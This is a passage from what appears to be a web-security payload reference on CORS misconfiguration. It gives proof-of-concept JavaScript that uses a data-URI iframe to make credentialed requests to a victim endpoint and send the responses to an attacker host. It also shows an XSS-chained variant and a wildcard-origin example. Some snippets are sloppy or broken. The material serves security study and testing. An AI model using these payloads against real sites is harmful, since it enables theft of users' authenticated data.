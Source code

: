 #### Proof of concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### Vulnerable Example: XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
ie:
<script>
    document.location="http://vulnerable subdomain=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','endpont having sensitive info',true); req.withCredentials = true;req.send();function reqListener() {location='collaborator/pravin?hancy='%2bthis.responseText; };%3c/script>"
</script>
```

### Vulnerable Example: Wildcard Origin `*` without Credentials

If the server responds with a wildcard origin `*`, **the browser does never send
the cookies**. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then 
pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```
